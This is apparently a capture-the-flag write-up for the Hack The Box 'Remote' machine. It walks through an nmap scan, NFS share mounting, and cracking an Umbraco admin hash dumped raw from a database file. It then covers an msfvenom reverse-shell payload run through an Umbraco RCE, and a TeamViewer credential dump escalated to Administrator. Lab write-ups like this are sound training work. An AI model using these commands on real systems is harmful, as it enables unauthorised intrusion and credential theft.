


Remote - TyPx0oN
- Machine Name is Remote
- This is Eazy Machine and ip address is 10.10.10.180
Nmap Scan
#cat remote.nmap
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_ SYST: Windows_NT
80/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/tcp6 rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 2,3,4 111/udp6 rpcbind
| 100003 2,3 2049/udp nfs
| 100003 2,3 2049/udp6 nfs
| 100003 2,3,4 2049/tcp nfs
| 100003 2,3,4 2049/tcp6 nfs
| 100005 1,2,3 2049/tcp mountd
| 100005 1,2,3 2049/tcp6 mountd
| 100005 1,2,3 2049/udp mountd
| 100005 1,2,3 2049/udp6 mountd
| 100021 1,2,3,4 2049/tcp nlockmgr
| 100021 1,2,3,4 2049/tcp6 nlockmgr
| 100021 1,2,3,4 2049/udp nlockmgr
| 100021 1,2,3,4 2049/udp6 nlockmgr
| 100024 1 2049/tcp status
| 100024 1 2049/tcp6 status
| 100024 1 2049/udp status
|_ 100024 1 2049/udp6 status
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
2049/tcp open mountd 1-3 (RPC #100005)
Aggressive OS guesses: Novell NetWare 6 (98%), Microsoft Windows 7 or Windows Server 2008 R2 (94%), Novell NetWare 6.5 Open Enterprise Server (92%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (92%), Microsoft Windows 10 (91%), Microsoft Windows 10 1507 (91%), Microsoft Windows 10 1507 - 1607 (91%), Microsoft Windows 10 1511 (91%), Microsoft Windows 10 1703 (91%), Microsoft Windows Home Server 2011 (Windows Server 2008 R2) (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 5m05s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2020-04-19T14:16:06
|_ start_date: N/A
TRACEROUTE (using port 53/tcp)
HOP RTT ADDRESS
1 856.64 ms 10.10.16.1
2 447.10 ms 10.10.10.180
NFS Service
As Nmap result too many port are open , so let check some import port and services
I found one strange service this is mountd service , I don't know what is this , I search this in google , This is NFS(Network File System)ServiceCheck this NFS Service , I use showmount command to check
#showmount -e 10.10.10.180 /site_backups
Try to get these site_backups
mount -t nfs 10.10.10.180:/site_backups /root/HTB/Machines/Remote/nfs/
After , check this folder , can see some folder and files including config
umbraco.config and umbraco.sdf are interesting files, I analyze this 2 files
In This time , I found some administrator usernamd , Email , Password Hash and Hash Algorithm of this password in umbraco.sdf file
I think this hash [b8be16afba8c314ad33d812f22a04991b90e2aaa] can be password I crack this hash with john# cat Umbraco.sdf | head ��V�t�t�y���Adb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d��׃rf�u�rf�v�rf���rf����X�v�������adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50��BiIf�hVg�v�rf�hVg����X�v�������adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f�[{"alias":"umbIntroIntroduction","completed":false,"disabled":true}]��?�g�.og���g����X�v�������smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e��?�g�Ag�.og�Og����Y�w�������ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749��~� g�)� g�.og�7� g����Z�x�������ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32��#��݇�0� A$C=H�DY^`FnyPH���I�� K��PM�� �@`Cpr�G��PLUHUH�4�-`��II AEEqDD���| 5! ��Eq Q� |p�!p�`@8��~!PI@ |p�!p���~!PIEEqDD���| 5! ��Eq Q�
# john --format=Raw-SHA1 --wordlist=/usr/share/wordlists/rockyou.txt hash
john --show hash
?:baconandcheese
1 password hash cracked, 0 left
Web
As Nmap result too many port are open , so let check some import port and services
I found one strange service this is mountd service , I don't know what is this , I search this in google , This is NFS(Network File System)ServiceNmap Result show port 80 is open , check this website I found website this website is umbraco website and
I found umbraco config , admin email and password from NFS , Login with this admin email and passwordI login with this email and password
It's work and login successful

Trying to get shell
- I tried to get reverse shell
- We can upload file into server
This is Window Machine , I use msfvenom to create malicious file - This is My python reverse shell code
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=port -f exe > test.exe - Upload this file .After upload successfully , use msfconsole to listening,
This umbraco cms has RCE Vulnerability , Use google to find this exploit and how to use
This exploit is RCE and use this exploit to execute our uploaded malicious file to work in system - Malicious upload file is locate into the C:/inetpub/wwwroot/Media/1035/test.exe
Finally I got one meterpreter shell
Finally I got user

Priveleges Escalation
I check some process , I found one strange process this is team viewer and I already know I can get privileges escalation with team viewer, I found teamviewer file in C:\Program Files (x86)
I run metasploit post module teamviewer credential dumps
Finally I got password !
I use evil-winrm to login with this password
I successfully login as Administrator and get root.txt
Finally Owned This Machine